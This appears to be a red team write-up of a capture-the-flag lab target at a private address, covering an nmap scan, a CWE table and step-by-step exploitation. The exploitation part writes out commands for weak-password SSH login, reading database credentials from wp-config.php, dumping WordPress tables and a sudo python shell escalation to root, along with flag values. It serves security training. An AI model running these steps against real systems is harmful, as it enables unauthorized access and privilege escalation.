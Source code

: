 # **Red Team: Summary of Operations**

## TARGET 1

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveal the below services and OS details:

nmap -sV 192.168.1.110

![1](/Resources/Images/1/1.png)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information on vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-200** | Exposure of sensitive information to an unauthorized actor | Allowing sensitive information to be compromised so easily can result in a breach that can have consequences on your business.
**CWE-521** | Weak Password Requirements | Not enforcing a password policy allows users to choose passwords that they can easily remember which are not typically secure.
**CWE-284** | The software does not restrict or incorrectly restrict access to a resource from an unauthorized actor. | A user can execute elevated commands when they were not preauthorized to do so
**CWE-98** | An improper control of filename for include or require statement in PHP allows an LFI allowing remote attackers to execute arbitrary code | An attacker can execute commands on the web server remotely allowing them to further compromise the target.

---

## Exploitation

The Red Team was able to penetrate Target1 and retrieve the following confidential data:

**flag1.txt:**  `b9bbcb33e11b80be759c4e844862482d`

- **CWE-200** Exposure of sensitive information to an unauthorized actor
    
    Sensitive data was spotted in plain text embedded in the code of the service site. 
    
    Exploit:
    
    |  | **Flag1** |
    | -- | -- |
    | Using Google Chrome developer's Tools on the Url: `192.168.1.110/service.html` give a glance at the exposed sensitive data. | ![2](/Resources/Images/2/5.png)
  
     

    

---

**flag2.txt:** `fc3fd58dcdad9ab23faca6e9a36e581c`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        cd ../../
        find -iname “*flag*” 2>/dev/null
        cat /var/www/flag2.txt
    ```

    **Flag2**

    ![3](/Resources/Images/2/8.png)

---

**flag3.txt:**  `afc01ab56b50591e7dccf93122770cd2`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The SQL's root password is reachable in plain text on the file wp-config.php
    
    Exploit:
   
    | MySQL Root Password | Flag3 |
    | -- | -- |
    | ``nano wp-config.php`` <br /> Password: R@v3nSecurity <br /> <br />![4](/Resources/Images/2/9.png)  | `mysql -u root -p` <br /> Password: R@v3nSecurity <br /> `mysql> show databases;` `mysql> use wordpress;` <br />  `mysql> show tables;` <br /> `mysql> select * from wp_posts;` <br />  <br />![11](/Resources/Images/2/22.png) 

    >#### note: Flag4 also appears in this exploit.

---

**flag4.txt:**  `715dea6c055b9fe3337544932f2941ce`

- **CWE-284** Improper Access Control

    Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows the execution of a Python Script that leads to root access to the system.
  
    The user Steven has python root access. This led to a root privilege escalation.

    Exploit:
    
    1. Steven has the privilege to run python language as a root user
        ```   
            su steven
            Password: pink84
            sudo -l  
        ```
    
        ![8](/Resources/Images/2/16.png)

    2. Python Script
    
        sudo python -c 'import pty;pty.spawn("/bin/bash")' | **Flag4**: cat /root/flag4.txt
        ---|---
        ![9](/Resources/Images/2/17.png) |   ![10](/Resources/Images/2/19.png)